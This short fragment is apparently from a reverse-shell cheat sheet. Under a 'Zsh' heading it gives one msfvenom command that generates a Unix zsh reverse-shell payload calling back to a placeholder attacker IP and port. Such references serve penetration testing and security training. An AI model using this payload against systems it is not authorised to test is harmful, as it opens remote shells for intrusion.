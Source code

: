 # Zsh

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>
```